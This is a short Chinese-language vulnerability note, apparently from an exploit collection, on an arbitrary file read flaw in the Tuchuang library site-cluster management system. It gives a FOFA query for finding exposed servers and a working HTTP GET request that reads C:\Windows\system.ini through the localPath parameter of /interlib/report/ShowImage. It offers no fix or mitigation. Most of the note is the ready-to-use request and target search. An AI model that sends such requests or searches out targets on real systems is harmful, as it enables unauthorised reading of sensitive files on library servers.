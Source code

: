# 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
图创软件 图书馆站群管理系统
```

## FOFA

```
"广州图创" && country="CN" && body="/interlib/common/"
```



## 漏洞复现

登录页面如下

![](./images/202202101854438.png)

漏洞请求包为



```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```



![](./images/202202101854283.png)



成功读取 system.ini 文件
